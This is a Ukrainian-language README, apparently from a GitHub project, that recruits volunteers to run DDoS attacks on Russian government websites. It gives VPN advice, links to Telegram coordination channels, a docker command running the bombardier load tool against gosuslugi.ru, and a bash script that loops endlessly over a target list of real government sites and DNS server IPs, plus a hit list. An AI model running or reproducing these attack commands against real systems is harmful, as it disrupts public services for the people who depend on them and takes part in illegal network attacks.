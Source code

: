 **Періодично ВПН необхідно переключати, щоб оновити ip адресу**

Конференція, де можна отримати допомогу: [https://t.me/volyndigitalresistance](https://t.me/volyndigitalresistance)

# Android/iOS
**Впевніться, що у вас достатньо заряду акумулятора та є доступ до зарядки**  
1. За можливості встановіть VPN (сервіси дуже швидко блокують ip адреси з України)  
- [F-Secure](https://www.f-secure.com/en/home/login)  
- [список альтернативних сервісів](https://t.me/c/1627443142/3)  
2:  
[Android/iOS]  
Просто відкрийте і залиште один з сайтів відкритим - [https://stop-russian-desinformation.near.page/](https://stop-russian-desinformation.near.page/) / [https://help-ukraine-win.s3.eu-west-1.amazonaws.com/index.html](https://help-ukraine-win.s3.eu-west-1.amazonaws.com/index.html)  
[Android]  
[Встановіть додаток та слідуйте туторіалу за посиланням](https://telegra.ph/YAk-ddositi-na-telefon%D1%96-02-24)  

*Нові адреси для ddos атаки публікуються в [Telegram каналі](https://t.me/+97Y45he5lOI2ZTky)*  

# Windows/Mac/Linux
1. Встановіть [Docker](https://www.docker.com/products/docker-desktop)
2. Встановіть VPN 
- [F-Secure](https://www.f-secure.com/en/home/login) - РЕКОМЕНДОВАНО
- [ProtonVPN](https://protonvpn.com/download)
- [Windscribe](https://windscribe.com/download)
- [ClearVPN](https://my.clearvpn.com/promo/redeem?code=SAVEUKRAINE) - БЕЗКОШТОВНО НА РІК З ПРОМОКОДОМ SAVEUKRAINE
- [Urban VPN](https://www.urban-vpn.com/)
4. Запустіть в терміналі команду
```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
(замініть `https://www.gosuslugi.ru` на необхідний сайт - *нові адреси для ddos атаки публікуються в [Telegram каналі](https://t.me/+97Y45he5lOI2ZTky)*)  
**Ви можете відкрити декілька вікон терміналу**  

# Канали для новин та координації
- [https://t.me/+97Y45he5lOI2ZTky](https://t.me/+97Y45he5lOI2ZTky)
- [https://t.me/itarmyofukraine2022](https://t.me/itarmyofukraine2022)
- [https://t.me/ddosRussians](https://t.me/ddosRussians)
- [https://t.me/itguildukraine](https://t.me/itguildukraine)

# Доповнення  
Можете створити файл `ddos.sh` з контентом:
```
#!/bin/bash -x
DESTS=( "http://duma.gov.ru/" "http://president-sovet.ru/" "https://sovetnational.ru/" "https://www.gosuslugi.ru/ru/" "https://zakupki.gov.ru/epz/main/public/home.html" "https://gossluzhba.gov.ru/" "http://defence.council.gov.ru/" "http://budget.council.gov.ru/" "http://www.kremlin.ru/" "https://government.ru/" "http://www.scrf.gov.ru/" "http://www.ksrf.ru/ru/Pages/default.aspx" "http://www.vsrf.ru/" "http://premier.gov.ru/events/" "https://www.mchs.gov.ru/" "https://minjust.gov.ru/ru/" "http://www.fsb.ru/" "https://rosguard.gov.ru/" "https://customs.gov.ru/" "https://udprf.ru/" "http://favt.gov.ru/" "http://194.67.2.109:53/UDP" "http://194.67.7.1:53/UDP" "http://194.54.14.187:53/UDP" "http://194.54.14.186:53/UDP" )
TIME="180s"
while TRUE
do
   for DEST in ${DESTS[@]}
   do
       docker run -ti --rm alpine/bombardier -c 1000 -d $TIME -l $DEST
   done
done
```
та запустити з допомогою команди `chmod +x ddos.sh && sh ddos.sh` в терміналі  

# Корисні ресурси
- [Туторіал по DDoS](https://tarahtino.notion.site/tarahtino/DDoS-1505b74f6f8443768dc47e0f4d2ee8b2)

## Ресурси для атаки (краще слідкувати за апдейтами в Telegram каналах для координації)
[Russian Sites Hit List](https://docs.google.com/spreadsheets/d/1kdB_8Em474bq0C-p4R5Zq8uOwq-CBKzzP-CiN6-NHWg/edit#gid=0) - постійно оновлюється  
`http://duma.gov.ru/` `http://president-sovet.ru/` `https://sovetnational.ru/` `https://www.gosuslugi.ru/ru/` `https://zakupki.gov.ru/epz/main/public/home.html` `https://gossluzhba.gov.ru/` `http://defence.council.gov.ru/` `http://budget.council.gov.ru/` `http://www.kremlin.ru/` `https://government.ru/` `http://www.scrf.gov.ru/` `http://www.ksrf.ru/ru/Pages/default.aspx` `http://www.vsrf.ru/` `http://premier.gov.ru/events/` `https://www.mchs.gov.ru/` `https://minjust.gov.ru/ru/` `http://www.fsb.ru/` `https://rosguard.gov.ru/` `https://customs.gov.ru/` `https://udprf.ru/` `http://favt.gov.ru/`

[Contribute](https://github.com/domanskyi/xsquad)
